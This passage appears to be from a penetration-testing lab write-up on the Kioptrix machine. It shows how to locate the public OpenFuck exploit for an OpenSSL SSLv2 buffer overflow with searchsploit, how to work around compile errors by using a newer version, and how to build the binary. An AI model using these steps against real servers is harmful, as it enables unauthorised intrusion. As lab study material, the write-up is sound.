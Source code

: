 ```bash

A buffer-overflow vulnerability has been reported in some versions of OpenSSL.
The issue occurs in the handling of the client key value during the negotiation of the SSLv2 protocol. A malicious client may be able to exploit this vulnerability to execute arbitrary code as the vulnerable server process or possibly to create a denial-of-service condition.

***UPDATE: A worm that likely exploits this vulnerability has been discovered propagating in the wild. Additionally, this code includes peer-to-peer and distributed denial-of-service capabilities. There have been numerous reports of intrusions in Europe. It is not yet confirmed whether this vulnerability is in OpenSSL, mod_ssl, or another component. Administrators are advised to upgrade to the most recent versions or to disable Apache, if possible, until more information is available.
*/
/*
 * VERY PRIV8 spabam SPAX@zone-h.org
 * Compile with: gcc -o OpenFuck OpenFuck.c -lcrypto
 *
 */
#include <arpa/inet.h>
#include <netinet/in.h>
#include <sys/types.h>
...
```
We can see from the output that we need to compile the code using [gcc](/computers/linux/gcc.md):
```bash
gcc -o openfuck 21671.c -lcrypto
21671.c:715:31: error: ‘SSL2_MAX_CONNECTION_ID_LENGTH’ undeclared here (not in a function); did you mean ‘SSL3_MAX_SSL_SESSION_ID_LENGTH’?
  715 |         unsigned char conn_id[SSL2_MAX_CONNECTION_ID_LENGTH];
      |                               ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~
      |                               SSL3_MAX_SSL_SESSION_ID_LENGTH
21671.c:723:9: error: unknown type name ‘RC4_KEY’
  723 |         RC4_KEY* rc4_read_key;
```
Unfortunately, this code is old and will not easily compile. So we have to either fix all of the errors ourselves, or find someone who already has.
### Find a working version
When we used `searchsploit` to find all the exploit code r/t OpenFuck, there were three versions listed, one of which was `OpenFuckv2.c` w/ an ID of `47080`. We can cp it into our kioptrix dir like so:
```bash
cp /usr/share/exploitdb/exploits/unix/remote/47080 openfuck.c
```
Looking up this version on [exploit db](https://www.exploit-db.com/exploits/47080) we can see that it isn't verified like ID `21671` was. However, if we go to the [GitLab repo](https://gitlab.com/exploit-database/exploitdb/-/blob/main/exploits/unix/remote/47080.c?ref_type=heads) we can try to verify the code ourselves. 
![](PNPT/PNPT-pics/gaining-root-1%201.png)
Then we can try compiling it with `gcc`:
```bash
gcc -o openfuck of.c -lcrypto
of.c: In function ‘read_ssl_packet’:
of.c:534:17: warning: ‘RC4’ is deprecated: Since OpenSSL 3.0 [-Wdeprecated-declarations]
  534 |                 RC4(ssl->rc4_read_key, rec_len, buf, buf);
...
```
This time gcc only lists warnings and no errors, and if we check our directory, we can see that our binary exists `openfuck`.
## Exploitation
To figure out how to use our binary against the target, we can run it w/o any flags and see if the output gives us usage hints:
```bash
./openfuck
```